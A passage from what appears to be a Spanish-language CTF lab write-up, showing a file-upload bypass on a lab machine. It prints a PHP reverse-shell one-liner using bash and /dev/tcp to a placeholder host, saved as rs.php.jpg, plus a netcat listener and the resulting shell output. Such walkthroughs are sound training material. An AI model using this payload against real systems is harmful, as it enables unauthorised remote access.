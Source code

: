 <figure><img src="../../../../.gitbook/assets/settings.PNG" alt=""><figcaption></figcaption></figure>

Vemos que hay una imagen y parece que podemos subir archivos .jpg con eso podemos aprovecharnos para subir un archivo que nos envie una reverse shell

* Creamos un archivo **rs.php.jpg** para enviarnos una reverse shell

```php
<?php system("bash -c 'bash -i >& /dev/tcp/<tu-ip>/<tu-puerto> 0>&1'") ?>
```

* Nos ponemos en escucha con netcat por el puerto indicado

```shell
> nc -lvnp <puerto>
```

* Lo subimos y le damos a **save**

<figure><img src="../../../../.gitbook/assets/file_upload.PNG" alt=""><figcaption></figcaption></figure>

* Y estariamos dentro

```shell
> nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.7] 58284
bash: no job control in this shell
bash-3.2$ whoami
asterisk
```
